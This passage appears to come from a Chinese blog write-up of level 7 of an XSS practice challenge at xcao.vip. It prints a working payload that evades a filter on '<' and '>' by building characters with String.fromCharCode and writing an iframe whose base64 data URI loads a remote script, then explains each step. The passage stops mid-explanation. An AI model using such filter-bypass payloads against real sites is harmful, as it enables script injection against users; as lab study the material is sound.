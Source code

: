 人麻了🙃🙃🙃

如果有大佬能看到并且知道原因的话，麻烦评论或者私信指点一下我吧，弟弟感激不尽！！！

# 独孤九剑-第七式

## 题目

![在这里插入图片描述](https://img-
blog.csdnimg.cn/6dd7e58b17cc4aa8b025176b5ca9bd41.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)

> **在上一题的基础上，继续增加对`<`、`>` 的过滤，输出点从 `<input>` 标签变到了 `<script>` 标签中**

这下标签也不能用了，题目过滤越来越变态了😰😰😰

还是求助万能的网友。

## 方法一

Payload：

    
    
    http://xcao.vip/test/xss7.php?data="";document['write']`${String['fromCharCode']`60`%2B"iframe src"%2BString['fromCharCode']`61`%2B"data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHA6Ly94Y2FvLnZpcC94c3MvYWxlcnQuanMiPjwvc2NyaXB0Pg"%2BString['fromCharCode']`62`}`
    

接下来分析一下思路。

由于输出点变了，到了 `<script>` 标签，所以要看看页面代码是怎样的，方便做闭合：  
![在这里插入图片描述](https://img-blog.csdnimg.cn/145f051edfd443088eb38b1060f5b4ec.png)  
接下来就尝试构造 `"";`，闭合前一条语句的同时，也将其与后面的语句隔断了，以便于我们构造后面的内容。

有点 SQL 堆叠注入的味道了。

然后又是使用 `document['write']`，往 HTML 页面写入内容。写入的是一个模板字符串，占位符非常长：

    
    
    ${String['fromCharCode']`60`%2B"iframe src"%2BString['fromCharCode']`61`%2B"data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHA6Ly94Y2FvLnZpcC94c3MvYWxlcnQuanMiPjwvc2NyaXB0Pg"%2BString['fromCharCode']`62`}
    

首先是 `String['fromCharCode']()`，这个方法的作用是 **将 Unicode 编码转为一个字符** ，这里的
`String['fromCharCode'](60)` 就是 `<`。

然后根据模板字符串的语法，和字符串 `iframe` 之间，需要有一个 `+` 来进行拼接，但是需要注意的一点是，我们从始至终都是在题目的 URL 里面输入
Payload 的，纵观全局，这个 **`+` 现在处在的位置是在 URL 里面，如果不进行编码转换，会被当成空格**，那么就会出问题。

所以 `%2B` 就是这么来的。

同理，`String['fromCharCode'](61)` 是 `=`，`String['fromCharCode'](62)` 是
`>`，将模板字符串占位符中的代码翻译一下就是：

    
